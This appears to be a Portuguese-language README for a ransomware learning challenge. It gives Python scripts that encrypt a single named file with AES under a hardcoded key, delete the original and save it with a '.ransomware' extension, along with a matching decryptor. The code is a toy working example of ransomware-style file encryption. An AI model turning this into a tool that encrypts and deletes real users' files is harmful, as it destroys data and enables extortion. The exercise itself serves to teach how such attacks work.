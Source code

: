 # Desafio de Ransomware com Python

## Ferramentas Utilizadas
- **Python 3**
- **Biblioteca pyaes** (para AES simétrico)
- **Kali Linux** (ou qualquer distribuição Linux)

## Instalação
Antes de executar o código, instale a biblioteca necessária:
```bash
pip3 install pyaes
```

## Encriptando o Arquivo
### Código `encrypter.py`
```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "Desafio.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomware"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

## Decriptando o Arquivo
### Código `decrypter.py`
```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "Desafio.txt.ransomware"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "Desafio.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

## Executando o Projeto
![image](https://github.com/user-attachments/assets/8bb9b71e-9e87-4ee5-9454-b3716f2c10fe)

---

